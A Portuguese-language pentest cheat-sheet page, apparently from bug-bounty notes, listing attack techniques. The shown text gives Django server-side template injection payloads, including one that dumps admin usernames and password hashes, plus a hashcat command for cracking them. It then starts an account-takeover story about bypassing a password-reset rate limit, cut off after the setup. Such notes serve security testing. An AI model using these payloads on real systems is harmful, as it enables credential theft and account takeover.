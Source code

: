 # Técnicas

Nesta seção você encontra:

* [Injeção de Modelo no Servidor](tecnicas.md#injecao-de-modelo-no-servidor)
* [Controle de Conta via Desvio de Limite de Taxa](tecnicas.md#controle-de-conta-via-desvio-de-limite-de-taxa)
* [Exposição Excessiva de Dados](tecnicas.md#exposicao-excessiva-de-dados)
* [Account Takeover](tecnicas.md#account-takeover)
* [Wordpress](tecnicas.md#wordpress)
* [Mattermost](tecnicas.md#mattermost)
* [Duplo Fator / MFA](tecnicas.md#duplo-fator-mfa)
* [Race Condition](tecnicas.md#race-condition)



## Injeção de Modelo no Servidor

**Detecção:** `{% if 'ahsan' == 'ahsan' %} a {% endif %}`

**Depuração:** `{% debug %}`

**Divulgando Portal do Admin:** `{% include 'admin/base.html' %}` <mark style="color:green;">= /secret-admin-portal</mark>



**Divulgando Credenciais:**

<pre><code>{% load log %} {% get_admin_log 10 <a data-footnote-ref href="#user-content-fn-1">as</a> log %} {% for e in log %}
{{e.user.get username}} : {{e.user.password}} {% endfor %}
</code></pre>



**Credenciais com hash do Django Descartadas**



**Descriptografado usando Hashcat:**&#x20;

`hashcat -m 10000 hashed_passwords rockyou. txt` <mark style="color:green;">= Django Admin Panel Pwn</mark>



***



## Controle de Conta via Desvio de Limite de Taxa

Em um programa privado de bug bounty, quando uma redefinição de senha era iniciada, os usuários eram obrigados a inserir um `código numérico de seis dígitos` enviado para seu e-mail para verificação.

Para evitar `ataques de força bruta`, o aplicativo implementou proteção de `limite de taxa`, restringir o número de solicitações que os usuários podem fazer dentro de um prazo específico. Se esse limite fosse superado, o sistema emitiu uma mensagem de erro `"429 Too Many Requests."`
